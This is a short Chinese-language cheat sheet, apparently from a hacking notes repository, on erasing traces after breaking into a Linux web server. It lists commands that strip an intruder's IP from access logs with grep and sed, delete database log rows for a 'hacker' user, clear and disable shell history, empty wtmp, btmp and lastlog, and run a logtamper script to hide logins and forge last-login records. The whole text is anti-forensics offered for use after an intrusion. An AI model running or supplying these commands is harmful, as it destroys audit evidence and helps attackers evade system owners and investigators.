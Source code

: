 # 日志清理

## web服务的访问日志

### 日志路径
1. 常用web服务器的默认日志路径
2. 自定义日志路径

### 清理日志
<pre>
1. 使用cat和grep命令清理
> cat access.log | grep yourip  //查找特定日志内容
> cat access.log | grep -v yourip > /tmp/a.log  //将需要留下的日志内容另存
> cat /tmp/a.log > access.log  //覆盖原有日志内容

2. 使用sed命令清理
//提取具体日志关键词, 构造正则表达式, 通过sed命令删除匹配的行
> sed -i -e '/192\.168\.1\.123/d' /var/log/messages
</pre>

## web应用日志清理
一些完善的web应用, 对于一些操作, 每一步都有记录
保存形式有文本文件和数据库存储

### 数据库日志记录清理
<pre>
// 一张日志表可能有user, ip, timestamp, action等字段
> DELETE FROM applogs WHERE user="hacker";
</pre>

## history命令日志的删除

<pre>
1. 使用-c选项, 不过这条命令本身会保存
> history -c
> history -w

2. 进入系统后, 先备份一下.bash_history, 撤退时还原

3. 禁用history
> unset HISTORY HISTFILE HISTSAVE HISTZONE HISTLOG
> export HISTFILE=/dev/null
> export HISTSIZE=0
> export HISTFILESIZE=0
</pre>

## linux登录日志的清扫

<pre>
1. 清除日志内所有内容
/var/log/dmesg  //包含核心启动日志
/var/log/messages  //系统报错日志
/var/log/boot系统引导日志
> echo > /var/log/wtmp  //清除系统登录成功记录
> echo > /var/log/btmp  //清除系统登录失败记录
> echo > /var/log/lastlog  //清除最近登录信息
2. 使用工具清除日志指定内容
wtmpclean
logtamper

> python logtamper.py -m 1 -u b4dboy -i 192.168.1.110  //躲避管理员w查看
> python logtamper.py -m 2 -u b4dboy -i 192.168.1.110  //清除指定ip的登录日志
> python logtamper.py -m 3 -u b4dboy -i 192.168.1.110 -t tty1 -d 2018:10:27:10:11:12  //修改上次登录时间地点
</pre>
